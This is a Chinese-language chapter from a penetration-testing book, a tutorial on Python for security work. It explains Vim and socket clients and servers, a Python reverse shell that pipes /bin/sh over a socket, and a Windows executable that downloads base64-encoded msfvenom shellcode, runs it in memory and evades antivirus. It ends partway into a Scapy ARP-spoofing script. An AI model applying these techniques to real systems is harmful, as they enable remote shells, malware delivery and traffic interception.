

# 第八章：Python 基础

传说计算机其实非常笨拙；它们只是在进行数字计算和在内存中移动东西。尽管这一说法有些过于简化，但它们如何“思考”仍然显得神秘莫测。没有比编程更好的方式来了解计算机实际如何思考了。本书的其他地方，我们将看到不同层次的编程语言——汇编语言，最底层的机器代码，由助记符**操作码**（**opcode**）构成；C 语言，最基础的高级语言；甚至 Python，作为一种高级解释型语言。Python 拥有庞大的标准库模块，可以帮助**渗透测试员**（**pen tester**）完成几乎所有任务。在*第二章*，*绕过网络访问控制*中，我们展示了如何在自己的 Python 脚本中使用 Scapy 的功能，将特制的数据包注入网络。作为渗透测试员，我们可以通过学习如何在自己的自定义程序中利用这些功能来进一步提升自己的技能。本章将回顾如何在安全评估的背景下使用 Python，我们将讨论以下主题：

+   将 Python 融入你的工作

+   在 Python 环境下介绍 Vim

+   使用 Python 模块进行网络分析

+   在 Python 中进行反恶意软件逃逸

+   Python 和 Scapy——一对经典搭档

# 技术要求

要完成本章的练习，你将需要以下内容：

+   Kali Linux

+   安装了 Python 的 Windows 主机

+   **Pip 安装 Python**（**pip**）和 PyInstaller 在 Windows 上的安装（Python 安装的一部分）

# 将 Python 融入你的工作

许多人问过我：*做渗透测试员需要是程序员吗？* 这是一个会引发各种激烈争论的问题，纯粹主义者们会给出不同的回答。有些人说，如果没有成为一名熟练的程序员，就不能算真正的黑客。我的观点是，黑客的定义与具体技能关系不大，而更关乎理解力和心态；黑客是一种解决问题的个性和生活方式。话虽如此，我们得承认——如果没有一定的编程和脚本知识，进步将会受到阻碍。做渗透测试员就像是一个万事通，我们需要接触多种语言，而不是专注于一种语言的开发者。如果要在编程与渗透测试这方面选择一个最低要求，我会建议你学习一门脚本语言。如果只能选一门脚本语言来作为安全从业人员的入门，我会选择 Python。

编程语言和脚本语言有什么区别？为了明确起见，脚本语言也是一种编程语言，它们之间的区别在于从编码到执行之间所采取的步骤。脚本语言不需要编译步骤；脚本在执行时按指令进行解释——因此，这类语言的正确术语应该是解释型语言。C 语言是传统编程语言的一个例子，它在执行之前需要编译。然而，这些界限正变得越来越模糊。例如，完全可以有一个 C 解释器的存在，使用它可以让你编写 C 脚本。

## 为什么选择 Python？

Python 是一个理想的选择，原因有很多，但它的设计哲学中的两个元素使其特别适合我们的目标——成为一个高级渗透测试人员——它的强大（它最初设计是为了吸引 Unix/C 黑客）和它对可读性与可重用性的强调。作为专业人士，你将和其他人一起工作（不要指望在这个领域能够像黑帽孤狼那样独自作战）；Python 是少数几种语言之一，与你的同事分享你得心应手的工具，很可能不会收到后续的*你到底在想什么？*邮件来了解你的构建思路。

也许最重要的一点是，Python 是你可能会在客户网络外围后面发现的目标之一。你已经通过某种方式进入了网络，发现自己处于一个丰富的内部网络中，但你登陆的主机上没有你需要的工具。令人惊讶的是，你会发现 Python 在这样的环境中已经安装得相当普遍。更重要的是，你总能在任何被攻陷的 Linux 主机上找到一个 Python-aware 的文本编辑器。接下来我们将讨论编辑器。

Python 中的一个核心概念使其成为黑客首选的编程语言，那就是**模块**。模块是一个简单的概念，但对于 Python 程序员来说却具有强大的影响力。模块不过是一个包含 Python 代码的文件，其功能可以通过`import`语句引入到你的代码中。通过这个功能，模块的所有属性（或者说是某个特定属性）都可以在你的代码中被引用。你也可以使用`from [module] import`来挑选并引入你需要的属性。全球有许多聪明的人编写了大量的模块，随时准备供你放入`import`搜索路径中，这样你就能引入任何你想要的属性来在代码中完成某些工作。最终结果？一块紧凑且高度可读的 Python 代码，能够完成一些非常棒的事情。

在写本章时，Python 3 是最新最强大的版本，任何仍然在生产环境中使用 Python 2 的人，都被强烈鼓励熟悉 Python 3。一个实用的 Python 工具 `2to3` 可以将你的 Python 2 代码转换为 Python 3。我们将在*第十二章*，*Shellcoding - Evading Antivirus* 中探讨如何配置全局安装以实现向后兼容性。既然我们已经熟悉了基础知识，那么让我们熟悉一下 Kali 中的 Python 编辑器吧。

## 在 Kali 环境中舒适地使用 Python

在 Python 开发过程中，你将使用两个主要组件——交互式解释器和编辑器。你可以通过以下简单命令调用解释器：

# python3

解释器正如其名称所示——它会即时解释 Python 代码。当你在编写代码时，这能够节省大量时间，因为你可以——例如——检查你的公式，而无需关闭编辑器并运行代码，寻找相关行。

在这个示例中，我们输入了 `print("Hello, world!")`，解释器简单地打印了这个字符串。我随后尝试了一个公式，并玩弄了 `int()` 函数来将结果四舍五入到最接近的整数。因此，我在没有编写和运行代码的情况下，实验了我的公式，并了解了一些关于 Python 的知识：


图 8.1 – 在 Kali 中玩转 Python 3

对于大多数 Python 开发者来说，使用两个屏幕同时打开——一个是解释器，另一个是编辑器——这并不是什么惊讶的事。解释器是 Python 安装的一部分；你输入 `python3` 并按下 *回车* 键时，所得到的就是人们将要使用的解释器。而编辑器则可以根据个人喜好选择——再次强调，这个领域的观点通常会非常激烈！

编辑器只是一个文本编辑器；从技术上讲，Python 文件也是文本。我可以用 Windows 记事本写 Python 脚本，它也能正常工作——但我并不推荐这么做（告诉别人你就是这么写代码的，那一定会引来奇怪的目光）。如果它只是一个文本编辑器，那又有什么大不了的呢？你在选择编辑器时最重要的特性是语法意识——编辑器能够理解你正在输入的语言，并以独特的方式展示语法。它将原本只是 Python 的文本，变成一个活生生的代码片段，让你的生活变得更加轻松。

哪怕是最小的错误——例如忘记了一个闭合的引号——都会在编辑器试图理解你的语法时突出得像一个明显的伤口。市面上有几款很好的语法感知编辑器；一些流行的包括 Notepad++、gedit、nano、Kate 和 Vim。现在，更为严谨的开发者可能会使用**集成开发环境**（**IDE**），它是一个更全面的解决方案，帮助你理解代码的执行，并协助编写代码。IDE 可能有调试器和类浏览器等功能，而编辑器则没有。市面上有很多 IDE 可供选择，大多数都是免费的，且有商业版，支持各种操作系统；其中一些好的 IDE 包括*Wing IDE*和*PyCharm*。

IDE 很酷，但请注意，我们在这里的目的并不是使用它。建议你熟悉你最喜欢的 IDE，但我们的目标是追求简约和灵活性。拥有一个舒适的 IDE 设置是你在专用机器上使用的东西，这对于编写一个新的工具集并在你的任务中携带会非常棒。而我们这里讨论的背景是，在一个基本的机器上编写 Python 脚本，在这种情况下，使用你最喜欢的 IDE 可能不太实际。能够仅靠一个普通的 Python 安装加上一个编辑器就能应付，远比学习一个 IDE 更为重要，所以我鼓励你在这本书外掌握一个 IDE。现在，我们将继续使用一个几乎任何 Linux 机器上都能启动的编辑器，并且应该能够原生理解 Python 语法。我选择的编辑器可能会让一些读者直接把这本书当火把烧掉，而其他读者则会为此欢呼。没错——我要使用 Vim。

## 介绍具有 Python 语法感知的 Vim

要了解 Vim 作为编辑器的声名狼藉，只需在你最喜欢的搜索引擎中输入：**如何退出 Vim？**

Vim 代表`Vi IMproved`，因为它是原始 vi 编辑器的克隆，但做了一些被称为改进的变化。公平地说，这些确实是改进，而且它有很多——我们这里不会一一讲解。但有一个关键的改进——它对脚本语言（如 Python）的原生支持。另一个改进对于那些还没准备好适应 Vim 那种“坐在航天飞机驾驶舱”的感觉的人来说非常实用：Vim 的图形界面版本，称为 gVim。图形版本本质上还是 Vim，所以可以随意尝试。

我或许应该提一下 Emacs 和 vi/Vim 之间那场漫长且血腥的编辑器战争。我选择 Vim 作为本章的工具并不是对这场战争的表态。我更倾向于将其作为一个快速且轻量的工具，在这里，我们的主要关注点是带有 Python 语法区分的文本编辑。对 Emacs 的最喜欢的描述是它是一个操作系统内的操作系统——我认为它对于我们在这里的需求来说有点过于复杂。我鼓励读者在本章之外也尝试使用这两者。

使用这个简单的命令启动 Vim：

# vim

你会看到一个编辑器启动屏幕，告诉你如何快速进入帮助文件，如下所示：


图 8.2 – Vim 启动屏幕

当你在 Vim 中打开任何文档（或开始一个新会话）时，你是在浏览文件，而不是编辑。要真正输入文档内容，我们称之为 **插入模式**，可以通过按 *i* 键启用。你会在屏幕底部看到 `INSERT` 字样。使用 *Esc* 键退出插入模式。向 Vim 输入命令时，用冒号（:）加上具体的命令——例如，退出 Vim 就是输入 `:q` 后按 *Enter*。暂时不用担心太多细节，我们在编写脚本时会一步一步讲解基础操作。

在我们编写第一个有用的 Python 脚本之前，先开启语法高亮并编写一个简单的 `hello_world` 程序。在 Kali 中，Vim 已经能够识别 Python 语法；我们只需要告诉 Vim 我们正在处理特定类型的文件。首先，输入 `vim` 和文件名，然后按 `:` 进入命令模式，如下所示：

# vim hello_world.py

然后，输入以下命令并按 *Enter*：

:set filetype=python

当你准备好时，按 *i* 键进入插入模式。当你输入 Python 脚本时，语法会自动高亮显示。写下你的 `Hello, World` 脚本，像这样：

print("Hello, World!")

按 *Esc* 退出插入模式。然后，使用 `:wq!` 保存更改并一键退出 Vim。

运行你的程序，惊叹于你的杰作吧。它就是这样：


图 8.3 – Python 中的 Hello, World!

好了，别再浪费时间了。让我们开始做一些网络编程吧。

# 使用 Python 模块进行网络分析

使用正确的模块的 Python 脚本可以成为一个成熟和强大的网络技术员。Python 在你能想到的每一个抽象层面都有它的位置。你只需要一个快速而粗糙的服务作为一些任务的前端，比如下载文件？Python 来帮忙。你需要深入了解低级协议，通过条件逻辑嵌套脚本化特定数据包操作，与第 3 层的网络交流，甚至下到数据链路层？Python 让这一切变得有趣而容易。最棒的部分是你可以想象到的任何项目的可移植性；正如我提到的，你将作为一个渗透测试人员在一个团队中工作，很少有你会独自工作的情况。即使你是一个独行侠项目，白帽黑客都会通知客户，没有商业机密或魔术师的代码，所以你可能会被要求用可理解的术语解释坏人如何逃脱你的胜利。向某人发送一些代码——无论是熟练的同事还是代表你客户的知识渊博的管理员——当**概念验证**（**POC**）需要环境依赖和长时间的实验室组装时，这可能会对接收者提出一些要求。另一方面，Python 脚本则非常易于使用。你可能需要提供的最多是并未包含在庞大的 Python 社区中的特殊模块。Python 在网络编程方面表现突出，考虑到网络任务在任何评估中的重要性，这是合适的。

## 网络编程的 Python 模块

我们有趣的小`hello_world`程序只需要 Python 来解释你复杂的代码。然而，你毫无疑问已经意识到，`hello_world`对于渗透测试人员来说并不太有用。首先，它只是展示一个过度使用的陈词滥调。但即使它更方便，也没有导入。就功能而言，你看到的就是你得到的。真正释放 Python 的能力是当我们用模块展示能力时。如果我要猜测你最常使用的任务类型，我会猜测是网络编程。

Python 程序员有很多选项可以让他们的脚本与网络进行交互。理解模块的关键是通过层级或级别来组织它们。低层模块给你最大的控制权，但它们可能难以正确使用；高级模块通过在幕后处理低级构造，让你编写更具 Python 风格的代码。任何在更高抽象层次上工作的东西，都可以通过低层代码实现，但通常需要更多的代码行。以`socket`模块为例，`socket`是一个低级网络模块：它暴露了**伯克利软件分发**（**BSD**）**套接字**应用程序接口（**API**）。通过导入`socket`并配合正确的代码，你的 Python 程序几乎可以在网络上做任何事情。如果你是那种有雄心的人，想用 Python 的魔力替代——比如——**网络映射器**（**Nmap**），那么我敢打赌你代码的第一行就是`import socket`。在高级层面上，你有像`requests`这样的模块，它允许你进行直观的**超文本传输协议**（**HTTP**）交互。只需一行代码，导入`requests`就能把整个网页转换为一个可以操作的 Python 对象。不错吧。

记住——任何在高级别上工作的东西都可以通过低级别代码和模块来构建；你不能用高级模块来完成低级任务。所以，让我们举个例子。在渗透测试中使用 Python 将大量依赖于`socket`，因此让我们快速构建一个简单粗暴的客户端。仅用 11 行代码，我们就可以连接并与服务进行交互，并存储其响应。

记住，`socket`作为低级模块，会调用操作系统的套接字 API。这可能会使你的脚本依赖于平台！现在，让我们开始构建我们的客户端骨架。

## 构建 Python 客户端

在我们的示例中，我已经在我的实验室中通过标准端口`80`设置了一个 HTTP 服务器，IP 地址为`192.168.108.229`。我正在编写一个客户端，它将与目标 IP 地址和端口建立 TCP 连接，发送一个特定格式的请求，接收最多 4,096 字节的响应，将其存储在本地变量中，然后简单地将该变量显示给用户。我将其余部分留给你自己想象，看看你能从这里出发去做些什么。

在本章的例子中，你会看到的第一行是`#!/usr/bin/python3`。回想一下我们在书中早些时候使用 Python 脚本的部分，你会记得我们用`chmod`命令让脚本在 Linux 中可执行，然后使用`./`执行它（这告诉操作系统可执行文件位于当前目录，而不是在用户的`$PATH`中）。`#!`被称为 shebang（没错，我是认真的），它告诉脚本在哪里找到解释器。通过包含这一行，你可以将脚本视为可执行文件，因为解释器可以通过你的 shebang 行找到：


图 8.4 – 最基本的客户端

让我们逐步查看这段简单的代码：

+   使用`webhost`和`webport`，我们定义了目标的 IP 地址和端口。在我们的例子中，我们在脚本中定义它们，但你也可以从用户那里获取输入。

+   我们已经熟悉了`print()`，但在这个例子中，我们可以看到变量是如何在打印文本中显示的。请记住，IP 地址是字符串，端口是普通整数：看看我们是如何分配`webport`的，而没有使用单引号。我们将使用星号（*****）让 Python 解包我们的序列，而`print()`会为我们处理类型转换。

+   现在是有趣的部分。调用`socket.socket()`创建一个你选择的 Python 对象；它看起来像一个变量，并且是创建的套接字的 Python 表示。在我们的例子中，我们创建了一个名为`webclient`的套接字。从现在起，我们使用`webclient`来操作这个套接字。由于套接字是低级别的，我们需要告诉它我们使用的是哪种地址族，因为 Unix 系统可以支持多种地址族。这时，`AF_INET`就派上用场了：`AF`表示地址族，`INET`表示`IP version 4`（**IPv4**）。(`AF_INET6`适用于 IPv6，当你需要更复杂的操作时可以使用。) `SOCK_STREAM`表示我们使用的是流套接字，而不是数据报套接字。简单来说，流套接字用于进行有明确约定的 TCP 会话，而数据报则是“发了就算”的类型。`AF_INET`和`SOCK_STREAM`的组合是你几乎每次都会使用的。

+   现在，我们通过用句点分隔对象名称和任务来操作我们的套接字。如你所料，你可以设置一堆具有唯一名称的`sockets`，并通过它们管理代码中的连接。`webclient.connect()`建立与目标 IP 和端口的 TCP 连接。接着使用`webclient.send()`将数据发送到已建立的连接。请记住，`send()`需要将其参数作为字节传递，因此简单的字符串不起作用——我们在字符串前加上`b`来实现这一点。

+   就像在任何健康的关系中一样，我们发送一个友好的消息，并期望得到回应。`webclient.recv()` 为这个回应准备了一些空间；它接受的参数是这个准备空间的大小，且准备空间被命名，使其成为我们代码中的一个对象——在这个例子中，我称它为枯燥但合逻辑的`reply`。

我们通过显示`reply`对象——与被联系服务器的响应——来结束，但你可以对回复做任何你想做的事情。此外，请注意，脚本到此为止，因此我们没有看到使用`sockets`的影响——它们通常是短暂存在的实体，专门用于短暂的对话，因此此时套接字将被拆除。在处理`sockets`时请记住这一点。

## 构建一个 Python 服务器

现在，我们将设置一个简单的服务器。我说的是*简单*服务器，这可能会让你想象成*只是具有基本功能的 HTTP 服务器*——不，我指的是真正简单的。这将仅仅监听连接，并在接收到数据后采取行动。让我们看看这里的代码：


图 8.5 – 基础服务器

请注意，我引入了一个新模块：`threading`。这个模块本身是一个用于与`thread`模块（在 Python 3 中称为**_thread**）进行接口的高级模块。如果你想构建线程接口，我建议你只导入`threading`。我知道有人会问：*什么是线程？* 线程只是编程中我们都熟悉的一个花哨的术语：特定的函数调用或任务。当我们学习编程时，我们一次处理一个函数调用，以便理解它们的结构和功能。线程的概念在我们工作中有一些需要稍等的任务时就会派上用场——例如，等待某人连接，或者等待某人向我们发送数据。如果我们在运行一个服务，我们在等待处理连接。但如果每个人都去睡觉了呢？我可能在一秒内就收到连接，或者也许在几天的等待后才幸运地看到一次连接。后者是我们黑客潜伏时常见的场景：我们设置了一个陷阱，只需要目标点击链接或执行某个负载。线程允许我们一次管理多个任务——线程。让我们通过下面的简单服务器脚本来看它是如何工作的：

+   我们从声明 IP 地址和端口号开始，这些将在此用于设置本地监听器。然后我们创建一个名为`server`的套接字，并将其定义为带有 IPv4 地址的流套接字。

+   现在，我们使用`server.bind()`将套接字绑定到本地端口。请注意，IP 地址已经声明，但我们设置为`0.0.0.0`。从网络角度来看，如果一个数据包到达我们的套接字，那么它已经被正确地路由，并且源主机已经正确地定义了我们的 IP 地址。这意味着，如果我们的系统有多个接口并且有多个 IP 地址，这个监听器对于任何能与我们接口通信的客户端来说都是可达的！

+   绑定并不会告诉套接字绑定后要做什么。因此，我们使用`server.listen()`打开该端口；一个传入的**同步**（**SYN**）数据包会自动被处理为`SYN-acknowledge`（**SYN-ACK**）以及最终的 ACK。传递给`listen`的参数是最大连接数。我们随便设置了`4`；你的需求可能不同。通过`print`，用户会得到提示，表示我们已经启动并运行。

+   我们尝试过“解包我的序列”方法来将文本打印到屏幕；在这里，我们将做一些不同的事情。使用百分号符号（**%**），我们可以放置小的占位符来处理不同的数据类型。使用`d`表示十进制；`s`表示字符串。

+   现在进入一些更疯狂的操作——定义一个`connect`函数。这个函数是我们的客户端连接处理器调用的；也就是说，`connect`函数并不直接处理连接，而是决定在连接建立后做什么。代码不言自明：它为接收的数据预留了一个**千字节**（**KB**）的空间，并称之为`received`，然后回复一条消息，最后关闭连接。

+   我们的`while`循环语句使我们的服务器保持运行状态。`while`循环语句是另一个基本的编程概念：它是一个条件循环，只要给定的条件为真，它就会继续执行。假设我们有一个名为`loop`的整数变量。我们可以创建一个`while`循环，从`while loop < 15`开始，只要`loop`小于`15`，我们放入的任何代码都会执行。我们可以通过`break`和`continue`控制流的嵌套条件。不过，我知道你们程序员的想法：*它说在条件为真时执行循环，但没有定义条件*。没错，朋友们。我喜欢称这个为*存在性循环语句*——有点像程序员版的*我思故我在*。一个以`while True`开始的循环将会永远执行下去。这样的循环有什么意义呢？这是一种紧凑而简洁的方式，保持程序运行直到代码中的某个条件满足，无论是在调用的函数中还是在嵌套的条件测试中，这时我们会使用`break`。

+   `server.accept()`处于我们永不结束的`while`循环中，准备抓取连接客户端的地址数组。Python 中的数组是从`0`开始的，所以请记住：数组中的第一个值是`[0]`，第五个值是`[4]`，以此类推。地址数组的第一个值是 IP 地址，第二个值是端口，因此我们可以向用户显示连接客户端的详细信息。

+   我们使用`threading.Thread()`创建一个线程，并命名为`client_handler`。接着直接调用`client_handler.start()`来启动它，不过在你的程序中，你可以创建一些条件来启动该线程。请注意，传递给`threading.Thread()`的目标参数会调用`connect`函数。当`connect`函数完成后，我们会进入一个无限循环，正如这里所示：


图 8.6 – 运行我们的 Python 服务器

在这里，我们看到脚本的实际操作，处理来自**安全外壳**（**SSH**）客户端（其已自我标识）的连接，然后是一个类似 netcat 的连接，它发送了`Hello`。在我们重新进入`while True`循环之前，会显示一条`Listening on`的消息，因此除了使用*Ctrl* + *C*，没有其他简单的方法来终止这个程序。这个程序是服务器功能的框架。只需在其中加入你自己的 Python 魔法，可能性是无穷无尽的。

## 构建一个 Python 反向 shell 脚本

好的——所以，你正在进行后期利用阶段。你发现自己在一台安装了 Python 但没有其他工具的 Linux 主机上，并且你希望创建一个脚本，在特定场景下调用它，从而自动返回一个 shell。或者，也许你正在编写一个恶意脚本，希望从一个 Linux 目标返回一个 shell。无论是哪种情况，我们先快速看一下一个 Python 反向 shell 的框架，内容如下：


图 8.7 – Python 反向 shell

现在，我们引入了两个新模块：`os` 和 `subprocess`。这正是 Python 与操作系统交互能力的体现。`os`模块是一个多功能的操作系统接口模块，它是一个一站式解决方案，即使是在某些操作系统的特性下—当然，如果系统之间的可移植性是一个问题，使用时要小心。`os`模块非常强大，超出了我们在这里讨论的范围；我鼓励你自己去研究它。`subprocess`模块通常与`os`模块一起使用，它允许你的脚本生成进程，获取它们的返回码以供主脚本使用，并与它们的输入、输出和错误管道进行交互。让我们在这里看一下具体的内容：

+   我们正在创建一个新的 IPv4 流式套接字，并命名为`sock`。

+   我们使用`sock.connect()`用新的套接字连接到指定 IP 地址和端口的主机（在我们的示例中，我们只是进行本地测试——这对任何可达的地址都有效）。

+   启动`/bin/sh`当然是很好的，但是我们需要输入、输出和错误管道与我们的套接字进行通信。我们通过`os.dup2(sock.fileno())`来实现这一点，其中`0`到`2`分别代表`stdin`、`stdout`和`stderr`。

+   我们通过`subprocess.call()`调用`/bin/sh -i`。请注意，这会创建一个我们称之为`proc`的对象，但我们不需要做任何操作。该进程已经被生成，并且其标准流已经通过我们的套接字建立。Shell 已经在我们的远程屏幕上弹出，而它并不知道，就像这里所示的那样：


图 8.8 – 连接到我们的反向 shell 监听器

现在，我们启动我们的反向 shell 脚本。显然，需要有一个监听器准备好接收来自我们脚本的连接，因此我只需启动`nc -l`并指定我们在脚本中声明的端口。熟悉的提示符出现，我确认我已获得执行我们脚本的用户的许可。

说到用 Python 助手走私货物，我们来看看如何通过直接将恶意代码从网络传输到内存中来规避抗恶意软件软件。

# Python 中的抗恶意软件规避

我们在*第七章*中探讨了抗恶意软件规避，*利用 Metasploit 进行高级利用*。我们回顾的技术涉及将我们的负载嵌入到一个无害可执行文件的自然执行流程中。我们还介绍了编码技术，以减少检测签名。然而，解决问题的方法不止一种。（是谁想出了那个可怕的表达方式？）

如果你曾经防御过现实世界中的攻击，你可能见过各种规避技巧。过去常用的技巧往往是低级的（例如我们在*第七章*中用 Shellter 演示的，*利用 Metasploit 进行高级利用*），但是检测技术已经有了很大改进。如今，创造一个完全不可检测的威胁变得更加困难，它至少会触发一个可疑文件拦截。

因此，现代攻击往往是低级和高级的结合——利用社交工程和技术手段通过其他渠道将恶意软件传递到目标主机上。我曾经处理过一些案例，其中通过钓鱼技术偷偷进入的负载，仅仅是一个脚本，它利用本地资源从互联网上获取文件。一旦这些文件被获取，它们就在本地组装恶意软件。我们将使用 Python 来创建一个单一的`.exe`文件，该文件具有两个重要任务，如下所示：

+   从网络获取负载

+   将原始负载加载到内存并执行

Python 脚本本身几乎没有做什么，且没有恶意有效负载时，它并没有恶意签名。有效负载本身将不会像通常预期那样作为已编译的可执行文件到来，而是作为 `base64` 编码的原始 shellcode 字节。

因此，在攻击场景中，我们将有一个目标 Windows 计算机，我们将把我们的可执行文件放在其中进行执行。同时，我们在 Kali 中设置一个 HTTP 服务器，准备好根据适当格式的请求提供原始有效负载（该请求将在 Python 脚本中进行编码）。脚本接着解码有效负载并将其放入内存中。但首先，我们需要能够将 Python 脚本转换为 EXE 文件。

## 创建 Python 脚本的 Windows 可执行文件

我们需要的有两个组件——`pip`，一个 Python 包管理工具，以及 PyInstaller，一个很棒的工具，它读取你的 Python 代码，确定它的所有依赖项（你可能通过在 Python 环境中运行它而理所当然地使用了这些依赖），并从你的脚本生成一个 EXE 文件。不过，PyInstaller 有一个重要的限制——你需要在目标平台上生成 EXE 文件。所以，你需要一台 Windows 计算机来启动这个过程。

用你的 Windows 计算机进入 Commando 模式

我最喜欢的玩具之一是通过 Mandiant 的优秀 **虚拟机**（**VM**）将一台 Windows 电脑转变为攻击平台。最简单的理解方式是 Kali for Windows——一个渗透测试的通用操作系统载荷。它并不是一个预装的发行版，而是一个精致的安装程序，能够将你的普通 Windows 机器转换为攻击平台，下载所需的所有内容并为你调整设置。你在本次练习中并不需要它，但我会将它用作我的进攻性 Windows 环境。我认为没有它的渗透测试实验室是不完整的！

在我们的 Windows 机器上，已经安装并准备好 Python。（你也已经安装并准备好 Python 了，对吧？）所以，我执行了这个命令：

C:\> python –m pip install pyinstaller

这将获取 PyInstaller 并为我们准备好。它是一个独立的命令行程序，不是一个模块，因此你可以从相同的命令提示符运行 `pyinstaller` 命令。

## 准备你的原始有效负载

再次回到那个永远美丽的 `msfvenom`。我们这里没有做什么新鲜事，但如果你不是从 *第七章*（*Metasploit 高级利用*）过来的，建议先查看 `msfvenom` 的相关内容。让我们开始吧。看看下面的截图：


图 8.9 – 使用 msfvenom 生成原始有效负载

在这里，我们有一个快速简单的绑定有效负载；这一次，目标将会监听我们的连接以生成一个 shell。请注意，我指定了应避免使用空字节（**--bad-chars**），而且不需要生成 EXE 文件或任何其他特殊格式，`-f raw` 参数使得输出格式为原始格式：纯机器码（十六进制）。最终结果是 355 字节，但因为我没有将其编译或转换成其他任何形式，新的 `shellcode.raw` 文件就是 355 字节。

最后一步是创建一个将通过网络分阶段传输的有效负载。我们将对文件进行 `base64` 编码，主要有一个原因以及一个可能的副作用。主要原因是 `base64` 设计用于便于表示二进制数据，因此它不太可能被一些库函数篡改，这些函数可能试图检查损坏或者甚至防止注入。根据防御措施的不同，可能的副作用是让代码变得更难以检测。

`base64` 编码和解码已经内建于 Kali 中，并且作为一个模块在 Python 中提供，因此我们可以轻松地在我们这端进行 `base64` 编码，然后编写脚本在将其加载到内存之前快速解码，如此处所示：



图 8.10 – Base64 编码的 Shellcode，准备下载

关于 `base64` 的附注：虽然 `base64` 编码在一些系统中很流行，作为隐藏数据的一种手段，但它仅仅是一个不同的基数系统，而不是加密。防御者应该知道永远不能依赖 `base64` 来确保机密性。

我们已经准备好打开我们的惊喜，但我们仍然需要获取代码——让我们来看一下。

## 在 Python 中编写你的有效负载获取与交付代码

现在，让我们回到 Python，编写攻击的第二阶段。记住，最终我们将得到一个特定于 Windows 的 EXE 文件，因此这个脚本需要在你的 Windows PyInstaller 主机上运行。你可以在 Kali 上编写然后传输过来，或者直接在 Windows 上用 Python 编写，这样可以省去一步。

需要导入九行代码和一个 355 字节的有效负载。还不错，这是一个很好的示范，展示了 Python 的轻量级特性，正如我们在这里看到的：


图 8.11 – Shellcode 获取器

让我们逐步分析这段代码，具体如下：

+   我们需要查看三个新的 `import` 语句。请注意，第一个语句是 `from ... import`，这意味着我们正在精确选择要使用的源模块（或在本例中，是一个模块包）中的组件。在我们的案例中，我们不需要全部的 **统一资源定位符**（**URL**）处理；我们只需打开一个已定义的 URL，因此我们只引入 `urlopen`。

+   `ctypes` 导入是一个外部函数库；也就是说，它使得在共享库（包括 **动态链接库**（**DLLs**））中进行函数调用成为可能。

+   `urlopen()` 访问定义的 URL（我们通过在包含 `base64` 编码的有效载荷的目录中执行 `python -m SimpleHTTPServer` 来设置该 URL），并将捕获内容存储为 `pullhttp`。

+   我们使用 `base64.b64decode()` 并传递 `pullhttp.read()` 作为参数，将我们的原始 shellcode 存储为 `shellcode`。

+   现在，我们使用一些 `ctypes` 魔法。`ctypes` 足够复杂，可以作为一章独立讨论，所以我鼓励大家进一步研究；目前，我们为我们的有效载荷分配了一些缓冲区空间，使用 `len()` 为我们的有效载荷分配与其大小相同的空间。然后，我们使用 `ctypes.cast()` 将我们的缓冲区空间转换为函数指针。当我们这么做时，我们就得到了 `exploit_func()`——实际上，这是一个 Python 函数，我们可以像调用任何普通函数一样调用它。当我们调用它时，我们的有效载荷就会执行。

+   那么，还有什么可以做的呢？我们调用我们的 `exploit_func()` 漏洞利用函数。

在我的示例中，我在 Vim 中编写了这个代码，并将其存储为 `backdoor.py`。我将它复制到我的 Windows 机器上，并执行 PyInstaller，使用 `--onefile` 参数指定我要生成一个单一的可执行文件，如下所示：

pyinstaller --onefile backdoor.py

PyInstaller 输出 `backdoor.exe`。现在，我只需将这个文件作为社交工程活动的一部分发送出去，鼓励目标执行。别忘了设置你的 HTTP 服务器，这样目标机器就可以抓取有效载荷！在这个截图中，我们可以看到 `backdoor.exe` 正如预期那样抓取有效载荷：


图 8.12 – 获取代码从 SimpleHTTPServer 获取 shellcode

最后，让我们看看使用这种技术进行规避。在导入过程中，载荷本身并没有触发任何警报。我们的可执行文件本身，终端会看到它，因此可能会被扫描，在编写本文时，它仅被 7% 的杀毒软件检测到。

现在是时候将我们的 Python 网络技术提升到下一个级别了。让我们回顾一下我们的一些 **局域网**（**LAN**）恶作剧，并感受一下使用 Scapy 进行低级别操作的可能性。

# Python 和 Scapy – 一对经典组合

Python 和 Scapy 之间的缘分在第二章中已介绍——嘿，我等不及了。提醒一下，Scapy 是一个数据包操作工具。我们经常看到一些特别方便的工具被描述为某项任务的瑞士军刀；如果真是这样，那么 Scapy 就是外科手术刀。它也特别是一个 Python 程序，所以我们可以将它的功能导入到我们的脚本中。你可以用 Python 编写自己的网络渗透测试工具，任何工具都行；你可以替代 Nmap、netcat、p0f、hping，甚至像 arpspoof 这样的工具。让我们来看看使用 Python 和 Scapy 创建一个**地址解析协议**（**ARP**）欺骗攻击工具需要什么。

## 使用 Python 和 Scapy 重温 ARP 欺骗

让我们从底层开始构建一个第 2 层 ARP 欺骗攻击。如前所述，代码这里是一个框架；通过一些巧妙的 Python 编写，你有潜力将其转化为强大的工具。首先，我们导入库并进行一些声明，具体如下：

```
#!/usr/bin/python3 
```

```
from scapy.all import * 
```

```
import os 
```

```
import sys 
```

```
import threading 
```

```
import signal 
```

```
interface = "eth0" 
```

```
target = "192.168.108.173" 
```

```
gateway = "192.168.108.1" 
```

```
packets = 1000 
```

```
conf.iface = interface 
```

```
conf.verb = 0
```

看看这些`import`语句——Scapy 所有的力量。我们熟悉 `os` 和 `threading`，那么让我们来看看 `sys` 和 `signal`。`sys` 模块是我们在使用 Python 时始终可以访问的，它允许我们与解释器交互——在这个例子中，我们只是用它来退出 Python。`signal` 模块让你的脚本可以处理信号（在**进程间通信**（**IPC**）上下文中）。信号是发送给进程或线程的消息，告知某个事件——比如异常或除零错误。这使得我们的脚本可以处理这些信号。

接下来，我们将界面、目标 IP 和网关 IP 定义为字符串。要嗅探的数据包数量声明为整数。`conf` 属于 Scapy；我们使用刚才声明的 `interface` 变量来设置界面，并将冗余级别设置为 `0`。

现在，让我们深入了解一些函数，具体如下：

```
def restore(gateway, gwmac_addr, target, targetmac_addr):
```

```
   print("\nRestoring normal ARP mappings.")
```

```
